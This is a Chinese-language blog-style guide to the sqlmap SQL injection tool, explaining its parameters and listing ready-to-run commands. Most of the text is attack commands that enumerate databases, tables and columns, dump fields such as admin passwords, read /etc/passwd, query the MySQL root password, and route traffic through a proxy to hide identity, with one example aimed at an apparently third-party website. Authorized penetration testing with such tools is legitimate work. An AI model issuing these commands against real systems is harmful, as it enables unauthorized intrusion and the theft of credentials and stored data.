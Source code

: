 ```yaml
---
title: Net—sqlmap 使用指南
date: 2020-11-19
author: LM
tags: ["网络测试"]
---
```


## 1.sqlmap中部分参数的备注

### 星号（ * ）

在注入的过程中，有时候会存在伪静态的页面，此时可以使用星号表示可能存在注入的部分

sqlmap可以区分一个 URL 里面的参数来进行注入点测试，但在遇到了一些做了伪静态的网页就无法自动识别了。

```bash
'/admin/1/' 类似于这种，SQLMap 便无法进行注入测试，但它实际上可能是这样的：'/admin.php?id=1'
```

它只是把参数隐藏在了 URL 中，对于这种网页，直接在参数后加上一个星号即可。

```bash
sqlmap -u "www.baidu.com/admin/1*"
```

### –data

使用post方式提交的时候，就需要用到data参数了

### -p

当我们已经事先知道哪一个参数存在注入就可以直接使用-p来指定，从而减少运行时间

### –level

不同的level等级，sqlmap所采用的策略也不近相同，当–level的参数设定为2或者2以上的时候，sqlmap会尝试注入Cookie参数；当–level参数设定为3或者3以上的时候，会尝试对User-Angent，referer进行注入。

### –random-agent

使用该参数，sqlmap会自动的添加useragent参数，如果你知道它要求你用某一种agent，你也应当用user-agent选项自己指定所需的agent

### –technique

这个参数可以指定sqlmap使用的探测技术，默认情况下会测试所有的方式。支持的探测方式如下：

- B: Boolean-based blind SQL injection（布尔型注入）
- E: Error-based SQL injection（报错型注入）
- U: UNION query SQL injection（可联合查询注入）
- S: Stacked queries SQL injection（可多语句查询注入）
- T: Time-based blind SQL injection（基于时间延迟注入）

## 2.常用的指令

```lua
检查注入点             sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11"
列数据库信息            sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11" --dbs
指定库名列出所有表       sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11" -D xxxxx --tables
指定库名表名列出所有字段  sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11" -D xxxxx -T admin --columns
指定库名表名字段dump出指定字段
sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11" -D xxxxx -T admin -C ac,id,password --dump    
                                                                               
有几个参数可能会用到，直接加在最后面
--cookie=COOKIE                            在需要登录的地方，需要登录后的cookie
--proxy="http://127.0.0.1:8087"            使用HTTP代理隐藏自己的身份，比如使用goagent等
--sql-query=QUERY                          执行一个sql语句，不一定支持

命令解释（-v 等级1）
sqlmap -u "注入地址" -v 1 --dbs              // 列举数据库   
sqlmap -u "注入地址" -v 1 --current-db       // 当前数据库  
sqlmap -u "注入地址" -v 1 --users            // 列数据库用户  
sqlmap -u "注入地址" -v 1 --current-user     // 当前用户  
sqlmap -u "注入地址" -v 1 --tables -D "数据库"                          // 列举数据库的表名  
sqlmap -u "注入地址" -v 1 --columns -T "表名" -D "数据库"               // 获取表的列名  
sqlmap -u "注入地址" -v 1 --dump -C "字段,字段" -T "表名" -D "数据库"   //获取表中的数据，包含列   
```

## 3.Sqlmap参数使用实例

```rust
//指定参数注入 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 -p "id" 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 -p "cat,id" 
//指定方法和post的数据 
   sqlmap -u "http://192.168.1.47/page.php" --method "POST" --data "id=1&cat=2" 
//指定cookie,可以注入一些需要登录的地址 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --cookie "COOKIE_VALUE" 
//通过代理注入 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --proxy "http://127.0.0.1:8118" 
//指定关键词，也可以不指定。程序会根据返回结果的hash自动判断 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --string "STRING_ON_TRUE_PAGE" 
//显示指定的文件内容，一般用于php 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --file-read /etc/passwd 
//执行你自己的sql语句。 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 --sql-query="SELECT password FROM mysql.user WHERE user = 'root' LIMIT 0, 1"     
//union注入 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --union-check 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 --union-use --banner 
//保存注入过程到一个文件，还可以从文件恢复出注入过程，很方便，一大特色。你可以在注入的时候中断，有时间再继续。 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 -b -o "sqlmap.log" 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 --banner -o "sqlmap.log" --resume
```
